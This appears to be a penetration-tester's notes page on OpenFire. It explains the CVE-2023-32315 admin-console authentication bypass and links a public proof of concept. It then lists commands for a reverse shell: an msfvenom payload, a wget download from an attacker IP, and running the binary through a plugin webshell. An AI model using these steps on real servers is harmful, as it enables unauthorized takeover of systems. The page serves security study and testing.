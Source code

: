 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# OpenFire

OpenFire is an open-source, real-time collaboration server built on the XMPP (Extensible Messaging and Presence Protocol) standard. It is primarily used for internal chat services, presence management, and messaging between users within organizations. Designed in Java, OpenFire provides a web-based admin interface and supports features such as user authentication, group chat, message archiving, and integration with LDAP or Active Directory. OpenFire may appear as an exposed service running on default ports (usually `5222` for XMPP and `9090` or `9091` for web management). Improperly secured deployments can lead to information disclosure, unauthorized access to admin panels, or even remote code execution in vulnerable versions.

## Authentication Bypass to RCE

OpenFire versions prior to `4.6.8`, as well as `4.7.0` through `4.7.4`, are affected by a critical **authentication bypass** vulnerability in the OpenFire Admin Console ([CVE-2023-32315](https://nvd.nist.gov/vuln/detail/cve-2023-32315)). The flaw arises from improper access control on specific setup endpoints, which remain accessible even after the initial configuration process is completed.

Under normal conditions, the OpenFire web interface enforces restrictions that prevent unauthenticated users from accessing sensitive administrative functionality. However, in affected versions, the server fails to properly restrict access to legacy setup paths located under `/setup/`. An attacker can exploit this by directly accessing these endpoints to reinitialize parts of the server configuration. This allows the **creation of a new administrative account without requiring existing credentials**. Successful exploitation results in full administrative control over the OpenFire instance, including the ability to read user messages, manage accounts, and **potentially execute code depending on how plugins or integrations are configured**.&#x20;

A working [PoC](https://github.com/miko550/CVE-2023-32315) is available which leverages privileged functionality, i.e. uploading and deploying custom plugins in the form of `.jar` files, after creating an admin account to achieve RCE. This is standard behavior in OpenFire's admin console and does not require another vulnerability.

{% code overflow="wrap" %}
```bash
$ python3 CVE-2023-32315.py -t http://openfire-instance:9090
<SNIP>
User added successfully: url: http://openfire-instance:9090 username: qwkc2s password: 2vzxql
```
{% endcode %}

{% hint style="warning" %}
If the login and/or the server request hangs:

* After creating the user go directly to [http://openfire-instance:9090/plugin-admin.jsp](http://fired:9090/plugin-admin.jsp)
* After uploading the plugin go directly to [http://openfire-instance:9090/plugins/openfire-management-tool-plugin/cmd.jsp](http://fired:9090/plugins/openfire-management-tool-plugin/cmd.jsp)
{% endhint %}

A reverse shell can be obtain by executing the following commands via the webshell:

{% code overflow="wrap" %}
```bash
# Create a revshell binary on the attacking host
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.170 LPORT=80 -f elf -o revshell.elf

# Download the binary on the target
wget http://192.168.45.170:443/revshell.elf -O /tmp/revshell.elf
# Assign execute permissions on the file
chmod +x /tmp/revshell.elf
# Execute the malicious binary
/tmp/revshell.elf
```
{% endcode %}
